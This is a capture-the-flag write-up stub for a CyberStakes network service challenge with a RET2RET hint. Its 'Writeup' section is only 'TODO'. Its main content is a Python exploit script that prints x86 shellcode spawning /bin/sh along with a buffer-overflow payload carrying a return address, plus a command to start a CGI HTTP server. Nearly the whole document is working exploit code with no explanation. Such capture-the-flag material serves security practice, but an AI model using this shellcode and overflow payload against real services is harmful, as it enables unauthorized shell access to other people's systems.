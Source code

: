 Webtext
=========
For those of you who hate HTML, javacript and CSS, we released a new service
running on shell.cyberstakesonline.com:50484. Because we're good guys, we are
also releasing the source and the binary.

Hints:
 - Having trouble locating your shellcode? Use a RET2RET attack.

Writeup
--------

TODO

    #!/usr/bin/env python

    shell = "\x31\xC0\xF7\xE9\x50\x68\x2F\x2F\x73\x68\x68\x2F\x62\x69\x6E\x89\xE3\x50\x68\x2D\x69\x69\x69\x89\xE6\x50\x56\x53\x89\xE1\xB0\x0B\xCD\x80"
    payload = "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA>>>>>>>>>>>>>>>>>>>>>>>>>>>>><<<<<<<<<<<<<<<<<<<<<<<<<<<<<AABBBBCCCCDDDDEEEEFFFFGGGG>>>>><<<<<AA\xd9\x8a\x04\x08"

    print shell+payload

Do:

    $ python -m CGIHTTPServer 1337
